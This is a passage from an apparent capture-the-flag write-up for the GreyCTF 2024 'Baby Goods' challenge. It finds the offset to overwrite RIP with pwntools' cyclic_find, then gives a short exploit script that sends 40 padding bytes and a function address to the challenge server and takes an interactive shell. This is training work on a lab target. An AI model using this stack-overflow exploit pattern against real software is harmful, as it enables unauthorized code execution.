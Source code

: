 <img src = "/assets/greyctf24/babygoods_pwndbg.png" alt="Baby Goods pwndbg screenshot" style="width: 700px; height: 500px">

Note that it was to obtain the portion of the sequence with `b'kaaalaaa'`. So now we use `pwn` in Python to find the offset of `RIP`:

```python
>>> cyclic_find(b'kaaalaaa')
[!] cyclic_find() expected a 4-byte subsequence, you gave b'kaaalaaa'
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
40
```

Now that we know the offset of `RIP` is 40 and `sub_15210123` is located at `0x00401236`, we can craft an exploit script:

```python
from pwn import *
# establish remote connection
conn = remote('challs.nusgreyhats.org',32345)
conn.recvuntil(b'name: ')
conn.sendline(b'hi')
conn.recvuntil(b'Input: ')
conn.sendline(b'1')
conn.recvuntil(b'(1-5): ')
conn.sendline(b'1')
# send payload
payload = 40 * b'a' + p64(0x00401236)
conn.sendline(payload)
# Interact with the shell
conn.interactive()
```
